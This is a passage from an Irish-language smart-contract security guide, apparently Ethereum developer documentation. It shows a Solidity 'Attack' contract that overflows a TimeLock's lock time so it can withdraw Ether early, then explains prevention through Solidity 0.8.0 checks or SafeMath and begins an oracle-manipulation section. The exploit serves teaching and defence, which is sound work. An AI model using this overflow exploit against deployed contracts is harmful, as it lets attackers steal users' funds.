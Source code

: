 ```
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

##### Conas gannsreabhadh agus róshreabhadh slánuimhir a chosc

Ón leagan 0.8.0, diúltaíonn an tiomsaitheoir Solidity cód a mbíonn gannsreafaí agus rósreafaí slánuimhir mar thoradh air. Mar sin féin, ba cheart do chonarthaí arna dtiomsú le leagan tiomsaitheora níos ísle seiceálacha a dhéanamh ar fheidhmeanna a bhaineann le hoibríochtaí uimhríochta nó úsáid a bhaint as leabharlann (m.sh., <[SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math)) a sheiceálann le haghaidh gannsreabhadh/róshreabhadh.

#### Ionramháil Oracle {#oracle-manipulation}

Foinsíonn [Oracail](/developers/docs/oracles/) faisnéis atá as slabhra agus seolann siad ar slabhra í le húsáid ag conarthaí cliste. Le horacail, is féidir leat conarthaí cliste a dhearadh a idirghníomhaíonn le córais as slabhra, mar mhargaí caipitil, ag leathnú a bhfeidhmiú go mór.
